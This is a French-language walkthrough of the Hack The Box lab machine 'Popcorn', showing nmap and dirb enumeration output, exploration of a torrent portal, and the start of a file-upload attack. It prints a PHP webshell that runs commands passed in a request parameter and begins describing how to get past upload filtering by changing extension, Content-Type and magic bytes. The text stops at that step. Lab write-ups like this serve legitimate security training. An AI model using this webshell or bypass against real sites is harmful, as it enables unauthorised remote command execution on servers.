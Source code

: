 ```yaml
---
description: >-
  Popcorn Machine Linux de difficulté Medium disponible sur
  https://hackthebox.eu.
---
```


# HTB - Popcorn - Linux

Présentation

![Informations g&#xE9;n&#xE9;rales](../../.gitbook/assets/popcorn.png)

## Enumération

### Scan Nmap

```text
┌─[root@kali]─[~]
└──╼ #nmap -sC -sT -sV 10.10.10.6
```

| Options | Description |
| :--- | :--- |
| -sC |  |
| -sT |  |
| -sV |  |

```text
┌─[root@kali]─[~]
└──╼ #nmap -sC -sT -sV 10.10.10.6
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 18:07 CET
Nmap scan report for 10.10.10.6
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

| Ports Ouverts | Description |
| :--- | :--- |
| 22 | SSH -  |
| 80 | HTTP |

Si le port 443 était ouvert j'aurais pus le scanner avec la commande :

```text
nmap --script ssl-enum-ciphers -p 443 10.10.10.6
```

| Options | Description |
| :--- | :--- |
| --script ssl-enum-ciphers |  |
| -p 443 |  |

Cela nous aurait donnée des informations sur les versions de **TLS** utilisée par la cible et sur les suite de chiffrement. TLSv1.0 serait noté comme faible, tout comme les suite de chiffrement non sécurisée.

Première chose à faire, on ouvre Firefox et on accède à l'url [http://10.10.10.6/](http://10.10.10.6/) pour voire ce qu'il s'y affiche :

## User Flag

### Website - TCP 80

![Page web par d&#xE9;faut](../../.gitbook/assets/popcorn_2.png)

Il s'agit d'une ancienne page par défaut. Nous n'avons nulle part ailleurs pour rechercher du contenu. Nous allons donc faire une analyse des répertoire pour énumérer  les fichier et dossiers cachés sur la cible. Pour cela nous allons utilisé **dirb :**

```text
┌─[root@kali]─[~]
└──╼ #dirb http://10.10.10.6/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Jan  3 18:50:27 2021
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)
+ http://10.10.10.6/index (CODE:200|SIZE:177)
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)
+ http://10.10.10.6/test (CODE:200|SIZE:47330)
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/
+ http://10.10.10.6/torrent/browse (CODE:200|SIZE:9278)
+ http://10.10.10.6/torrent/comment (CODE:200|SIZE:936)
+ http://10.10.10.6/torrent/config (CODE:200|SIZE:0)
==> DIRECTORY: http://10.10.10.6/torrent/css/
==> DIRECTORY: http://10.10.10.6/torrent/database/
+ http://10.10.10.6/torrent/download (CODE:200|SIZE:0)
+ http://10.10.10.6/torrent/edit (CODE:200|SIZE:0)
==> DIRECTORY: http://10.10.10.6/torrent/health/
+ http://10.10.10.6/torrent/hide (CODE:200|SIZE:3765)
==> DIRECTORY: http://10.10.10.6/torrent/images/
+ http://10.10.10.6/torrent/index (CODE:200|SIZE:11356)
+ http://10.10.10.6/torrent/index.php (CODE:200|SIZE:11356)
==> DIRECTORY: http://10.10.10.6/torrent/js/
==> DIRECTORY: http://10.10.10.6/torrent/lib/
+ http://10.10.10.6/torrent/login (CODE:200|SIZE:8371)
+ http://10.10.10.6/torrent/logout (CODE:200|SIZE:182)
+ http://10.10.10.6/torrent/preview (CODE:200|SIZE:28104)
```

**Le dossier torrent semble contenir un portail pour le partage de torrent :**

![](../../.gitbook/assets/popcorn_3.png)

On parcours le site pour voir ce qu'il peut s'y trouver. On recherche le plus souvent des fonctionnalité d'upload ou des champs de saisie comme des formulaire  
Il existe une page d'upload, mais elle redirige simplement vers le formulaire de connexion. Il existe une page Parcourir, et elle affiche actuellement un torrent:

![](../../.gitbook/assets/popcorn_4.png)

Je me suis donc ensuite crée un compte : 

![Inscription](../../.gitbook/assets/popcorn_5.png)

Je me suis donc logger avec mes identifiants et je peux accéder au formulaire d'upload.

![](../../.gitbook/assets/popcorn_8.png)

On peut dans un premier temps uploader un **webshell PHP** mis il y a un erreur :

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

![](../../.gitbook/assets/popcorn_9.png)

On peut tester d'upload un fichier torrent \(vous pouvez en récupérer un [ici](https://ubuntu.com/download/alternative-downloads)\) pour voir ce qui se produit. Une fois upload il nous renvoi sur la page du torrent. On peut cliquer sur "**Edit this torrent**" et un pop-up apparait avec un formulaire :

![](../../.gitbook/assets/popcorn_10.png)

On peut voir qu'on peut upload une image. Une fois qu'on upload une image on obtient les informations suivante : 

![](../../.gitbook/assets/popcorn_11.png)

En regardant la page torrent, je vois maintenant l'image téléchargée. En regardant le HTML, l'image est référencée par l'URL suivante:

```bash
http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/8b851cd45092b458da23ba0ed834906d79f4e2d7.jpg&maxw=96
```

Je pensais que cela pouvait être un **LFI**, mais il inclut le fichier référencé en tant qu'image, donc même si je peux passer en dehors du répertoire actuel, cela n'aide pas vraiment.  
Étant donné que le **`src`** ressemble à un chemin, j'ai vérifié [http://10.10.10.6/torrent/upload/](http://10.10.10.6/torrent/upload/), et il a renvoyé une liste de répertoires comprenant mon image téléchargée:

![](../../.gitbook/assets/popcorn_12.png)

### Shell en tant que www-data

Il y a deux possibilités de télécharger des fichiers ici, le torrent et l'image. J'ai commencé avec l'image, si je soumets un simple webshell php, il renvoie «Fichier invalide». Il y a un filtrage que je devrai contourner

Je vais trouver le téléchargement autorisé d'un PNG dans **Burp** et l'envoyer à **Repeater**. Un site Web vérifie les types de fichiers valides de trois manières courantes en les comparant à une liste d'autorisation ou de refus:

* Extension de fichier
* En-tête `Content-Type`
* [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)

Je vais commencer par en changer un à la fois pour voir si le site se bloque. Tout d'abord, je vais changer l'extension en `.php`. Cela ne semble pas déranger:

